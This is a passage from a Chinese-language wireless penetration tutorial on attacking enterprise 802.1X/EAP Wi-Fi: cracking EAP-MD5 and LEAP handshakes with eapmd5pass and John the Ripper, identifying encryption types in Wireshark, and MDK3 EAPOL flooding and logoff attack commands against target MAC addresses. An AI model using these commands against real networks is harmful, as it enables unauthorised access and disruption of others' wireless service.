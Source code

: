 ![p10](http://drops.javaweb.org/uploads/images/5020ee65db62f00276586b22a7faf01159a2076f.jpg)

使用方法也简单:

```
eapmd5pass -r  <握手包文件名>  -w <字典>

```

### LEAP

Cisco的东西。叫轻量级EAP，特点也是数据不受SSL保护，用的是MS-CHAPV1，也就是我上面说的那个第一个版本。这就更别说了，还不如个WEP，03年就能黑了。

### EAP-FAST

LEAP的升级版，有个受保护的访问凭证（PAC）在TLS端验证，说也是有漏洞，但是我对这个加密接触不是太多，也没遇到过，可能见识短吧，大家有遇到的可以交流交流，但是估计也没啥价值。

LEAP的破解方法也是捕获四次握手，然后暴力破解。具体方法见上面都一个道理。简单的东西不多说.

针对一些高复杂的密码呢，我们可以去试试John the Ripper。 也叫JTR，也不错。支持的算法也多：

[https://github.com/magnumripper/JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)

在我们针对一个未知的不了解的企业热点进行渗透时，我们需要事先清楚它是采用什么加密，我们可以通过wireshark过滤一下类型：

![p11](http://drops.javaweb.org/uploads/images/a0d3515d8eebe14be4342de325748a1eb1409740.jpg)

也算个小技巧，受用。

顺便再贴一个MDK3关于802.1X的攻击方法。

```
mdk3 mon0 x  
    0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击
        -n <ssid>               
        -t <bssid>        #目标客户端的mac地址               
        -w <WPA type>
           Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
        -u <unicast cipher>
           Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
        -m <multicast cipher>
           Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
        -s <pps>      #速率，默认400               
    1 - EAPOL Logoff test       #注销认证攻击
        -t <bssid>       #目标客户端的mac地址             
        -c <bssid>       #目标ap的合法客户端mac               
        -s <pps>         #速率，默认400  

```

`MDK3 X 1 -t <目标mac地址> -c <客户端mac地址>`

![p12](http://drops.javaweb.org/uploads/images/334ff9abd801c7d5e2f376c5458941f38153a85e.jpg)

再推荐个工具吧：3vilTiwnAttacker

老外写的一款做无线劫持，嗅探为一体的工具。新出的，觉得不错大家可以试试。
